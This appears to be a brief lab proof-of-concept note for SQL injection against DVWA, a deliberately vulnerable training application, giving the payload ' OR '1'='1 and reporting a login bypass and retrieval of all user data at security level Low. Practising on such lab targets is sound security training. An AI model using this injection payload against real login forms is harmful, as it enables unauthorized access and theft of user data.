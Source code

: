 # DVWA SQL Injection PoC
## Payload
' OR '1'='1
## Result
- Bypassed login
- Retrieved all user data
> Tested on DVWA Security Level: Low
